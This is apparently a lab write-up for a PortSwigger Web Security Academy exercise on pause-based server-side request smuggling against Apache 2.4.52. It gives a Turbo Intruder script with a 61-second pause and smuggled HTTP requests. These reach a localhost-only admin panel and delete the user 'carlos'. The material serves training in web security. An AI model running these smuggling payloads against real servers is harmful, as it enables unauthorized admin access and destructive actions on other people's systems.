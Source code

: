 # Server-side pause-based request smuggling

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync/lab-server-side-pause-based-request-smuggling) is vulnerable to pause-based server-side request smuggling. The front-end server streams requests to the back-end, and the back-end server does not close the connection after a timeout on some endpoints. See [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling: Pause](https://portswigger.net/research/browser-powered-desync-attacks#pause).

## Reproduction and proof of concept

### Identify a desync vector

1. In Burp, notice from the Server response header that the lab is using Apache 2.4.52. This version of Apache is potentially vulnerable to pause-based CL.0 attacks on endpoints that trigger server-level redirects.
2. In Burp Repeater, try issuing a request for a valid directory without including a trailing slash, for example, `GET /resources`. Observe that you are redirected to `/resources/`.
3. Right-click the request and select **Extensions -> Turbo Intruder -> Send to Turbo Intruder**.
4. In Turbo Intruder, convert the request to a `POST` request (right-click and select Change request method).
5. Change the `Connection` header to `keep-alive`.
6. Add a complete `GET /admin` request to the body of the main request. The result should look something like this:

```html
POST /resources HTTP/1.1
Host: lab-id.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /admin/ HTTP/1.1
Host: lab-id.web-security-academy.net
```

7. In the Python editor panel, enter the following script. This issues the request twice, pausing for 61 seconds after the \r\n\r\n sequence at the end of the headers:

```html
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

8. Launch the attack. Initially, you won't see anything happening, but after 61 seconds, you should see two entries in the results table:
* The first entry is the `POST /resources` request, which triggered a redirect to `/resources/` as normal.
* The second entry is a response to the `GET /admin/` request. Although this just tells you that the admin panel is only accessible to local users, this confirms the pause-based CL.0 vulnerability.

### Exploit

1. In Turbo Intruder, go back to the attack configuration screen. In your smuggled request, change the Host header to localhost and relaunch the attack.
2. After 61 seconds, notice that you have now successfully accessed the admin panel.
3. Study the response and observe that the admin panel contains an HTML form for deleting a given user. Make a note of the following details:
* The action attribute (`/admin/delete`).
* The name of the input (`username`).
* The csrf token.
4. Go back to the attack configuration screen. Use these details to replicate the request that would be issued when submitting the form. The result should look something like this:

```text
POST /resources HTTP/1.1
    Host: lab-id.web-security-academy.net
    Cookie: session=YOUR-SESSION-COOKIE
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: CORRECT

    POST /admin/delete/ HTTP/1.1
    Host: localhost
    Content-Type: x-www-form-urlencoded
    Content-Length: CORRECT

    csrf=YOUR-CSRF-TOKEN&username=carlos
```
    
5. To prevent Turbo Intruder from pausing after both occurrences of \r\n\r\n in the request, update the pauseMarker argument so that it only matches the end of the first set of headers, for example:

```html
pauseMarker=['Content-Length: CORRECT\r\n\r\n']
```
    
6. Launch the attack.
7. After 61 seconds, the lab is solved.

## Exploitability

An attacker will need to identify a pause-based CL.0 desync vector; smuggle a request to the back-end to the admin panel at `/admin`; and then delete the user `carlos`. 
